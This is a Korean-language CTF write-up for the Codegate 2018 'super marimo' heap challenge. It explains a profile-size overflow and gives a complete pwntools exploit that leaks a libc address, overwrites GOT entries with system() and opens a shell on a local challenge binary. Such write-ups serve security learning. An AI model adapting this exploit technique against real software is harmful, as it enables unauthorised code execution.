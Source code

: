 ```yaml
---
layout: post
title: ! '[Codegate2018 CTF] super marimo writeup'
excerpt_separator: <!--more-->
tags:
  - KRater
  - CTF
  - Write-up
  - Codegate2018
---
```


올해 초 CTF에서 열심히 삽질했던 문제...지만 결국 못 풀었다. 최근 h3x0r CTF 문제들을 풀어보면서 힙 문제에 관심이 생겼는데, 갑자기 이 문제가 기억이 나서 서버 한구석에 던져져 있던걸 주섬주섬 꺼내서 풀어보았다. 그래도 그동안 공부한 성과인지 풀 수 있었다 감동! ㅠㅡㅠ

<!--more-->

## 개요

원래 대회에서는 libc도 있었던거같은데 기억 안난다.. 그냥 로컬 환경에서만 익스할 수 있게 했다.

> root@ubuntu:~/CTF/Codegate2018/SuperMarimo.d# file marimo 
>
> marimo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=45e9b4d54ca35be0defe243f0f8a4982bbac82dc, stripped

64비트 바이너리다. 문제를 분석해보면 마리모를 사고 팔 수 있는 프로그램인데, 처음에 돈이 0원이라서 마리모를 못 산다. 그런데 커맨드를 입력할 때 `show me the marimo`를 입력하면, 치트키처럼 마리모를 하나 공짜로 얻을 수 있다.

## 접근

원래는 `sell marimo` 명령이 인덱스를 검사하지 않고, 해당 영역을 해제하지 않아서 (또는 안에 있는 값이 해제된 값인지 검사하지 않아서) `number of marimo` 카운트가 음수가 될 수 있으며, 마리모 판매시에 주소값을 덮어쓰는 형식으로 GOT & PLT 영역을 덮어쓸 수 있음에 주목했었다. 그러나 값을 leak하기가 어렵고, 정확하게 해당 영역만 조작하기가 꽤 어려워서 그만뒀다.

![]({{ site.baseurl }}/images/KRater/2018-07-03-super-marimo-writeup/pic01.PNG)

그 다음, profile 수정 시에 마리모의 size (*32) 만큼 값을 써줄 수 있는데, 마리모가 시간에 따라 자라기 때문에 쓸 수 있는 값이 점점 증가하는 점에 주목하였다. 마리모는 자라서 프로필 작성을 더 크게 해줄 수 있는데, 영역이 고정되어 있어서 생기는 문제점이다. 해당 취약점을 바탕으로 익스플로잇 코드를 작성하였다.

## 익스플로잇

```python
from pwn import *

global r

PROCESS = "./marimo"
r = process(PROCESS)

def main () :
	r.recvuntil(">> ")

	show_me ("marimo1", "profile1")
	show_me ("vuln", "AAAA")

	sleep(3)

	modify (0, "A"*40 + "B"*8 + "C"*8 + p64(0x603040)*2)
	strcmp_addr = leak()
	system_addr = strcmp_addr - 0x5A1E0
	
	log.info("strcmp : " + hex(strcmp_addr))
	log.info("system : " + hex(system_addr))

	modify(1, p64(system_addr) + p64(system_addr))
	
	r.interactive() # /bin/sh

def modify (index, profile) :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline(str(index))
	r.recvuntil(">> ")
	r.sendline("M") # [M]odify
	r.recvuntil(">> ")
	r.sendline(str(profile)) # new profile
	r.recvuntil(">> ")
	r.sendline("B") # [B]ack
	r.recvuntil(">> ")

def leak () :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline("1")
	r.recvuntil("name : ")
	data = r.recv(6) + "\x00\x00"

	r.recvuntil(">> ")
	r.sendline("B")
	r.recvuntil(">> ")
	return u64(data)

def buy (size, name, profile) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(size))
	r.recvuntil(">> ")
	r.sendline("P") # [P]ay
	r.recvuntil(">> ")
	r.sendline(str(name))
	r.recvuntil(">> ")
	r.sendline(str(profile))
	r.recvuntil(">> ")

def show_me (name, profile) :
	r.sendline("show me the marimo")
	r.recvuntil(">> ")
	r.sendline(name)
	r.recvuntil(">> ")
	r.sendline(profile)
	r.recvuntil(">> ")
	print ("show me done. id : " + name)

def sell (num) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(num))
	r.recvuntil("?")
	r.sendline("S")
	r.recvuntil(">> ")
	print ("Sell done.")

if __name__ == '__main__' :
	main()

```

재밌는 문제였지만 추후에 출제자분께 여쭤보니 다른 `intended solution`이 있다고 한다.

해당 방법을 사용해서 나중에 다시 풀어봐야 겠다!

